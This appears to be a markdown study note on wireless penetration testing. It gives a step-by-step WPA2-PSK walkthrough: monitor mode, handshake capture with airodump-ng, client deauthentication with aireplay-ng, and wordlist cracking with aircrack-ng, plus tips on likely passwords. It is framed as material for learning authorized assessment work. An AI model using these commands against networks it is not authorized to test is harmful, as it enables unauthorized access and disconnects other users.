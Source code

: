 # Wireless Penetration Testing

### Wireless Penetration Testing - Overview

What is a wireless Penetration Test?

Assessment of a wireless network

- WPA2 PSK (Pre Shared Key) - Home networks
- WPA2 Enterprise - Enterprise networks

Activities performed

- Evaluating strength of PSK
- Reviewing nearby networks
- Assessing guest networks
- Checking network access

Capture a PSK handshake and crack it

**Tools Being Used**

Wireless Card
Router
Laptop

[Wireless Hack](https://www.wirelesshack.org/) for information

![Hacking Process](./pictures/wifi-hacking-process.png)

Read up on wireless channels

### WPA PS2 Exploit Walkthrough

Use `iwconfig` to check your adapter

Kill processes that may interfere with the attack:

`airmon-ng check kill`

Start card in monitor mode:

`airmon-ng start wlan0`

Monitor devices using the card in monitor mode:

`airodump-ng wlan0mon`

Grab the BSSID (MAC Address) and channel for the target

Run airodump-ng to look for handshakes:

`airodump-ng -c channel --bssid BSSID -w outfile interface`

Deauth:

`aireplay-ng -0 1 -a access-point-BSSID -c deauth-target-BSSID interface`

May need to run the deauth multiple times against multiple targets on the network

Avoid deauthing the same target to frequently as it disconnects them from the internet

Crack the handshake:

`aircrack-ng -w wordlist -b access-point-BSSID capture-file.cap`

Phone numbers are common, company names also, street addresses, wordlist generated from website
